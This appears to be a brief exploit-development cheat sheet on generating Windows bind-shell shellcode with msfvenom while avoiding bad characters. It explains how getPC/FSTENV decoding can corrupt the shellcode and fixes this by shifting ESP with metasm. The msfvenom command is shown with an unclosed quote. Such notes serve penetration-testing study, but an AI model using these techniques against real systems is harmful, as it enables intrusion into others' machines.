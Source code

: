# Shellcode without given bad characters

```
msfvenom -p windows/shell_bind_tcp -s 607 -b '\x00\x40\x0a\x0d
```

> Msfvenom’s encoded shellcode needs to first decode itself before executing, and as part of the decoding process, it needs to find its location in memory using a routine called getPC. A common technique for finding the current location in memory includes using an instruction called FSTENV, which writes a structure onto the stack, overwriting what’s there—in our case part of the shellcode. All we need to do to fix this is move ESP away from the shellcode, so getPC has room to work without corrupting our shellcode. (The problem in general is that if the values in EIP and ESP are too close together, shellcode tends to corrupt itself, either during decoding or during execution.)

./metasm_shell.rb
metasm > sub esp, 1500
metasm > add esp, -1500
